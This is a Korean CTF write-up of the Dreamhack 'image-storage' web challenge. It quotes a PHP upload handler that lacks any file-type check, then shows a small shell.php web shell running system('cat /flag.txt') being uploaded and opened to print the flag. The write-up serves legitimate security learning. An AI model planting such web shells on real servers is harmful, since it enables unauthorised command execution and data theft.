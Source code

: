 <!DOCTYPE html>
<html>
<head>
        <link rel="stylesheet" type="text/css" href="sytle.css">
</head>
<body>
        <h1>Dreamhack Web Hacking image-storage Write-Up</h1>
</body>
<br>
<br>
</html>

![image](https://github.com/user-attachments/assets/89916c37-ace3-41ca-b3ce-984ac65c1593)

문제 설명을 보면 php로 작성된 파일이고 ```/flag.txt```에 플래그가 있다고 한다.

문제 서버로 들어가보자

![image](https://github.com/user-attachments/assets/58c1d8d6-79c4-4219-a15f-ac48bf0ef95f)

이미지를 업로드하라고 나온다.

Upload 파일로 들어가면 파일을 업로드할 수 있는 페이지가 나온다.

![image](https://github.com/user-attachments/assets/ce2c012f-f36c-421e-b9cc-3e5daf3eb259)

문제 파일을 다운로드 받아보자.

![image](https://github.com/user-attachments/assets/805a4647-9e2f-4bfc-a26b-e4d644443473)

3개의 php 파일이 들어 있다. 이중에서 upload 파일이 중요한것 같은 먼저 살펴보자.

```python

<?php
  if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (isset($_FILES)) {
      $directory = './uploads/';
      $file = $_FILES["file"];
      $error = $file["error"];
      $name = $file["name"];
      $tmp_name = $file["tmp_name"];
     
      if ( $error > 0 ) {
        echo "Error: " . $error . "<br>";
      }else {
        if (file_exists($directory . $name)) {
          echo $name . " already exists. ";
        }else {
          if(move_uploaded_file($tmp_name, $directory . $name)){
            echo "Stored in: " . $directory . $name;
          }
        }
      }
    }else {
        echo "Error !";
    }
    die();
  }
```

php 명령어 부분만 뜯어 보면 ```./uploads/```경로에 사용자가 올리는 파일이 업로드 되는 것 같다. 

아무런 필터링도 없는 것을 보니 php 코드를 작성해서 업로드할 수 있을 것 같다.

플래그가 ```/flag.txt```에 있는 것을 알고 있으니 ```/flag.txt``` 파일을 출력하도록 코드를 작성했다.

```python
<?php
    system("cat /flag.txt");
?>
```

위 코드로 만든 shell.php 파일을 업로드 했다.

![image](https://github.com/user-attachments/assets/af7a001d-1029-4ed8-81c5-104fc98574ad)

업로드 되었다고 한다. 이어서 업로드한 파일로 들어가 보자.

![image](https://github.com/user-attachments/assets/034ac9b6-f5bf-4899-b46e-1557099bdcdd)

![image](https://github.com/user-attachments/assets/931a5bfe-958b-4a4e-97bb-6abc32e48872)

플래그가 출력되어 있다!

